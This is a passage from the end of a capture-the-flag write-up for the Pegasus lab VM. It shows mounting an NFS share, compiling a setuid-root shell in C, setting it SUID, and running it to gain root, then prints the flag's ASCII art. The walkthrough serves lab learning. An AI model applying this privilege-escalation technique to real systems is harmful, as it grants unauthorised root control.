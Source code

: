 So, I mounted the share...

```bash
root@kali:~# mkdir nfs
root@kali:~# mount 192.168.56.101:/opt/nfs nfs
```

... prepped a SUID shell ...

```bash
root@kali:~/Desktop/pegasus/nfs# cat shell.c
#include <stdio.h>

int main()
{
    setuid(0);
    setgid(0);
    system("/bin/sh");
}
root@kali:~/Desktop/pegasus/nfs# gcc shell.c -o shell
root@kali:~/Desktop/pegasus/nfs# chmod 4777 shell
root@kali:~/Desktop/pegasus/nfs# ls -lah
total 20K
drwxr-xr-x 2 root root 4.0K Dec 23 14:39 .
drwxr-xr-x 3 root root 4.0K Dec 23 14:32 ..
-rwsrwxrwx 1 root root 5.0K Dec 23 14:39 shell
-rw-r--r-- 1 root root   79 Dec 23 14:39 shell.c
```

... and rooted Pegasus :)

```bash
john@pegasus:~$ /opt/nfs/shell
# id
uid=0(root) gid=0(root) groups=0(root),1000(john)
```

## flag :)

```text
# cat /root/flag
               ,
               |`\
              /'_/_
            ,'_/\_/\_                       ,
          ,'_/\'_\_,/_                    ,'|
        ,'_/\_'_ \_ \_/                _,-'_/
      ,'_/'\_'_ \_ \'_,\           _,-'_,-/ \,      Pegasus is one of the best
    ,' /_\ _'_ \_ \'_,/       __,-'<_,' _,\_,/      known creatures in Greek
   ( (' )\/(_ \_ \'_,\   __--' _,-_/_,-',_/ _\      mythology. He is a winged
    \_`\> 6` 7  \'_,/ ,-' _,-,'\,_'_ \,_/'_,\       stallion usually depicted
     \/-  _/ 7 '/ _,' _/'\_  \,_'_ \_ \'_,/         as pure white in color.
      \_'/>   7'_/' _/' \_ '\,_'_ \_ \'_,\          Symbol of wisdom and fame.
        >/  _ ,V  ,<  \__ '\,_'_ \_ \'_,/
      /'_  ( )_)\/-,',__ '\,_'_,\_,\'_\             Fun fact: Pegasus was also
     ( ) \_ \|_  `\_    \_,/'\,_'_,/'               a video game system sold in
      \\_  \_\_)    `\_                             Poland, Serbia and Bosnia.
       \_)   >        `\_                           It was a hardware clone of
            /  `,      |`\_                         the Nintendo Famicom.
           /    \     / \ `\
          /   __/|   /  /  `\
         (`  (   (` (_  \   /
         /  ,/    |  /  /   \
        / ,/      | /   \   `\_
      _/_/        |/    /__/,_/
     /_(         /_(

```